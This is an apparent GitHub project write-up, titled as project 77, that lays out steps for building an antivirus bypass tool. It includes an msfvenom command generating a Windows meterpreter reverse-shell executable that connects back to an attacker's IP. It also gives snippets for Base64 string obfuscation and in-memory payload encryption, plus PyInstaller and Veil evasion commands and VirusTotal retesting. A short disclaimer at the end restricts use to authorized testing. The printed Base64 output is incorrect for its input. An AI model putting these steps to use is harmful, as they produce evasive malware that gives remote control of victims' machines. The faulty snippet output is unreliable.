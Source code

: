 ## Feel free to contact me through the following profiles:

 ## [Linkedin](https://www.linkedin.com/in/andrespds/) | [GitHub](https://github.com/tobproject) | [Instagram](https://www.instagram.com/tob_project/)









# antivirus_bypass_tool.md

# 77: Antivirus Bypass Tool with Obfuscation Techniques

## Project Objective
The purpose of this project is to create a tool that implements obfuscation techniques to evade antivirus detection. This can be achieved by modifying the malware or payload code to hide its behavior and make it less detectable by antivirus engines. This "bypass" process allows more effective penetration testing and improves understanding of how antivirus systems detect and block threats.

## Steps to Develop the Tool

### 1. Payload Selection and Environment Setup
- **Payload Selection:** Create or select a payload to run on the victim system. A common example is a reverse shell that connects back to the attacker's machine and allows remote command execution.  
- **Testing Environment:** Use virtual machines to create a controlled environment where you can safely perform tests. Ensure you have a victim machine (e.g., Windows VM) and an attacker machine (e.g., Kali Linux or Parrot OS).

### 2. Payload Preparation
- **Using Metasploit Framework:**  
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f exe > payload.exe
```
This generates `payload.exe` which attempts to connect to your attacker's IP at port 4444.  
- **Alternative:** You can also create a simple reverse shell in Python, but using Metasploit simplifies the process.

### 3. Code Obfuscation Techniques
- **String Obfuscation:** Hide IP addresses, command names, or network protocols using Base64 or similar techniques.  
```python
import base64
original_string = "reverse_tcp"
encoded_string = base64.b64encode(original_string.encode('utf-8')).decode('utf-8')
print(encoded_string)  # Output: "cmV2ZXJzZXRfY3Rw"
```
- **Payload Polymorphism:** Generate unique payloads each time to avoid antivirus detection. Alter code structure while keeping functionality.  
- **Dynamic Encryption/Decryption:** Encrypt the payload and decrypt it in memory during execution.  
```python
from cryptography.fernet import Fernet
key = Fernet.generate_key()
cipher_suite = Fernet(key)
cipher_text = cipher_suite.encrypt(b"reverse_shell_payload")
decrypted_payload = cipher_suite.decrypt(cipher_text)
```

### 4. Binary Obfuscation and Execution
- **PyInstaller Compilation:**  
```bash
pyinstaller --onefile --clean --distpath dist payload.py
```
- **Additional Binary Obfuscation:** Use tools like CFF Explorer to modify the binary and add extra layers of obfuscation.

### 5. Antivirus Bypass
- **Avoid Signature Detection:** Modify code strings and structures to prevent matching known antivirus signatures.  
- **Frameworks like Veil:** Create obfuscated payloads with:  
```bash
veil-evasion -p python/meterpreter_reverse_tcp
```

### 6. Detection Analysis and Improvement
- **Testing Against Antivirus:** Use VirusTotal to check detection. Adjust code if detected and retest.

### 7. Reporting and Improvements
- Document techniques, results, and potential improvements for future payload versions.

## Ethical and Legal Considerations
This project should only be done for educational purposes in controlled and ethical environments. Antivirus bypass techniques must only be used in authorized penetration testing, not for malicious purposes.

## Conclusion
Creating an antivirus bypass tool with obfuscation techniques is an advanced project that requires deep understanding of antivirus systems, detection methods, obfuscation techniques, and binary analysis. It enhances skills in programming, ethical hacking, and security evasion techniques.
